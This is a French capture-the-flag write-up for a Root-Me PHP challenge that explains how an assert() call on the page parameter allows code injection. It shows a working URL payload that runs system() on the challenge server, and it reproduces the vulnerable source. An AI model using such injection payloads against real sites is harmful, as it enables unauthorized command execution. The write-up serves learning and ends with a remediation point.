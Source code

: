 <script src="../../../js/password-protect.js"></script>

---
categorie: web-server
tags:
  - rootme
  - "#informatique/cyber"
lien:
---
# But

reussir Ã  afficher le .passwd 

# Fourni

un simple site php avec un /?page=

on sait que le site utilise assert



# MÃ©thode de rÃ©solution

je vois que c'est l'utilisation de assert qui semble poser problÃ¨me.

![[Pasted image 20241203120927.png]]*

si j'essai d'ajouter un ' :
![[Pasted image 20241203120944.png]]

Je peux dÃ©duire qu'il doit y avoir quelque chose tel que ceci : 


```
var = '<mon input>' + '.php'
```

je vois aussi que strpos est utilisÃ©, qui permet de savoir a quelle position d'une liste, un string se trouve ( je crois )

![[Pasted image 20241203121148.png]]

je suppose donc qu'il doit y avoir quelque chose comme 


```
list = ["contact", "home", "about"]
```
et qu'il faut que mon input soit dans la liste.

en cherchant pourquoi assert Ã©tait vulnÃ©rable, je trouve un [article linkedin](https://www.linkedin.com/pulse/php-assert-vulnerable-local-file-inclusion-mohamed-fakroud), et je trouve un payload que je test et Ã§a passe, il faut maintenant que je comprenne pourquoi cela fonctionne

# recherche apres avoir trouvÃ© 

Ce qui a fonctionnÃ© : 


maintenant que je peux envoyer des commandes dans la machine, je peux faire en sorte de rÃ©cupÃ©rer le fichier index.php

```
http://challenge01.root-me.org/web-serveur/ch47/?page="' and die(system('cat index.php | base64')) or '"
```



```
<?php

if (isset($_GET['page'])) {
  $page = $_GET['page'];
  $file = "includes/" . $page . ".php";

  // too much problems with script kiddies. Detect attack attempt.
  assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");
  $val = "includes/". $page;
  
  if(!file_exists($file)){
      echo "'$file'";
    die ("File does not exist");
  }
} else {
  $file = "includes/home.php";
}

?>
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>Evilness is words to live by.</title>
  </head>
  <body>
    <div>
      <a href="?page=home">Home</a> |
      <a href="?page=about">About</a> |
      <a href="?page=contact">Contact</a>
    </div>
    <hr style="margin-bottom:30px;">
    <div>
      <?php
        include_once( $file );
      ?>
    </div>

  </body>
</html>
```


on comprend donc pourquoi cela fonctionne : 

la ligne strpos permet d'Ã©viter a priori d'aller chercher la page ../<quelque chose> en mettant un "hacking detected"
![[Pasted image 20241203122802.png]]

```assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");```

lorsqu'on met "../ " dans l'url , alors le strpos evalue a true donc le assert evalue a false, et le die se dÃ©clenche


# Conclusion 

Il ne faut pas utiliser assert dans ce genre de cas, et il faut ajouter de la sanitization sur les input user